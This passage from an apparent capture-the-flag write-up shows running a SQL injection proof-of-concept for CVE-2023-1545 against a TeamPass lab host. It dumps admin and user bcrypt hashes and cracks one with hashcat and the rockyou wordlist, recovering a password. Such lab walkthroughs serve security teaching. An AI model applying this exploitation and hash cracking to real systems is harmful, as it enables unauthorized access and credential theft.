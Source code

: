 #### SQLI POC Execution

Running the script works:

```

oxdf@hacky$ bash cve-2023-1545.sh 
Usage: cve-2023-1545.sh <base-url>
oxdf@hacky$ bash cve-2023-1545.sh http://10.10.11.56:8080
There are 2 users in the system:
admin: $2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob: $2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy

```

#### Crack Hash

I’ll save the two hashes to a file (removing the spaces):

```

admin:$2y$10$lKCae0EIUNj6f96ZnLqnC.LbWqrBQCT1LuHEFht6PmE4yH75rpWya
bob:$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy

```

And pass it to `hashcat`:

```

$ hashcat teampass.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
hashcat (v6.2.6) starting in autodetect mode
...[snip]...
The following 4 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce

Please specify the hash-mode with -m [hash-mode].
...[snip]...

```

No reason to think it’s anything other than plain bcrypt, so I’ll try with `-m 3200`. Very quickly, the hash for bob cracks:

```

$ hashcat teampass.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
...[snip]...
$2y$10$yMypIj1keU.VAqBI692f..XXn0vfyBL7C1EhOs35G59NxmtpJ/tiy:cheerleader
...[snip]...

```
